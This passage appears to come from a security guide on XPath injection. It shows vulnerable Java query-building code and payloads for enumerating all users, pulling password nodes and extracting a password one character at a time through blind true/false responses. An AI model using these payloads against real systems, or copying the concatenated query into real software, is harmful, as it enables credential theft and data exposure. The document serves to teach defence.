 2. **Enumerate All Users**:
   ```
   Search: ') or ('1'='1
   
   Resulting query: //user[starts-with(username, '') or ('1'='1')]
   Returns: ALL users in the system
   ```

3. **Extract Passwords** (if accessible):
   ```
   Search: )] | //password%00
   
   Returns: All password nodes
   ```

**Impact**: Complete user database disclosure, including sensitive information.

> **Assumption**: The application returns full user objects including sensitive fields. Applications should only return necessary fields (principle of least privilege).

---

### Scenario 3: Blind XPath Injection

**Context**: Application doesn't return query results but shows different behavior for true/false conditions.

**Vulnerable Query**:
```java
String query = "//user[username='" + username + "']";
boolean exists = (Boolean) xpath.evaluate(query, xmlDoc, XPathConstants.BOOLEAN);
return exists ? "User found" : "User not found";
```

**Attack Steps**:

1. **Confirm Injection Point**:
   ```
   Username: admin' and '1'='1
   Response: "User found" (true condition)
   
   Username: admin' and '1'='2
   Response: "User not found" (false condition)
   ```

2. **Extract Password Character by Character**:
   ```
   Username: admin' and substring(password,1,1)='a
   Response: "User not found"
   
   Username: admin' and substring(password,1,1)='s
   Response: "User found" ✓ First character is 's'
   
   Username: admin' and substring(password,2,1)='e
   Response: "User found" ✓ Second character is 'e'
   ```
